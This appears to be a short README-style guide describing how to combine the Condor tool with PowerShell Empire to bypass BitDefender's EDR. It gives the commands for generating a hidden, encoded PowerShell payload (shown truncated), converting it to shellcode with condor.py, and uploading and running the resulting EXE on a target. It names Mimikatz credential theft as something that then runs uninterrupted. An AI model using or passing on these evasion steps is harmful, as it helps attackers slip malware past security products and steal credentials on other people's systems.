 # Using Condor + Powershell Empire

The [condor](https://github.com/MrEmpy/Condor) tool is also able to bypass BitDefender's EDR, including running Powershell Empire's own tools without any interruption, such as Mimikatz.

1. Open your Powershell Empire and generate a Powershell payload, example:

```
powershell -Sta -Nop -Window Hidden -EncodedCommand cwB2ACAAbwAgACg...
```

2. Run the condor tool with the following command:

```
python3 condor.py -p windows/x64/exec
```

3. Paste the Powershell payload to generate the shellcode

![](Images/bitdefender2.png)

4. Upload the EXE to the machine and run.

![](Images/bitdefender.png)
